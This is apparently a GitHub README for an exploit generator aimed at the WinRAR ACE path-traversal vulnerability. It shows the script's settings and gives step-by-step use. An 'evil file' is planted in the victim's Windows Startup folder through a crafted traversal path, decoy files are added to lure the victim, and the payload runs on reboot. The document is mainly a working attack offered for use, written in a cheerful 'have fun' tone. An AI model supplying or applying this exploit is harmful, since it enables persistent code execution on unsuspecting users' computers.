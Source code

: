 exp for [Extracting Code Execution From Winrar](https://research.checkpoint.com/extracting-code-execution-from-winrar/)

[poc](https://github.com/Ridter/acefile) by Ridter

how to use ?

you just need to install python 3.7, and prepare a evil file you want to run, set the values you want, **this exp script will generate the evil archive file automatically**!

1. set the values you want

```
... ...

# The archive filename you want
rar_filename = "test.rar"
# The evil file you want to run
evil_filename = "calc.exe"
# The decompression path you want, such shown below
target_filename = r"C:\C:C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\hi.exe"
# Other files to be displayed when the victim opens the winrar
# filename_list=[]
filename_list = ["hello.txt", "world.txt"]

... ...

def get_right_hdr_crc(filename):
    # This command may be different, it depends on the your Python3 environment.
    p = os.popen('py -3 acefile.py --headers %s'%(filename))
    res = p.read()
    pattern = re.compile('right_hdr_crc : 0x(.*?) | struct')
    result = pattern.findall(res)
    right_hdr_crc = result[0].upper()
    return hex2raw4(right_hdr_crc)

... ...

```

2. run the exp, exp generated the `test.rar` automatically

![](http://imglf5.nosdn.127.net/img/TnVEN1Q3NkoyR0l5aDVmNFA4MnZMVExtcGVqSGZUdDFBWGgyaGU0NGpHWUlPdmU1bHJTMFJ3PT0.jpg?imageView&thumbnail=500x0)

3. if the victim opens the `test.rar`, he will see the file `hello.txt` and `world.txt`, you can also add more files, more attractive files.

![](http://imglf6.nosdn.127.net/img/TnVEN1Q3NkoyR0l5aDVmNFA4MnZMV0IrVk1NeUxJcWh6aXV3TVFHek8zbXBZaFNhamY4aHBBPT0.jpg?imageView&thumbnail=500x0)

4. when he unpacks the file, the victim's user startup directory will have one more file named `hi.exe`, actually it's a `calc.exe`. when he restart the computer, the `hi.exe` will run.

![](http://imglf3.nosdn.127.net/img/TnVEN1Q3NkoyR0l5aDVmNFA4MnZMV0puYkhZTVkvc1hmK2E3KzBYdmZ0cU5yUzFGVVk0THRnPT0.jpg?imageView&thumbnail=500x0)

have fun! :)

[![Watch the video](https://i.postimg.cc/BZ7KDDFP/2019-02-25-031816.png)](https://www.youtube.com/watch?v=jm_lKZRNA1Y)

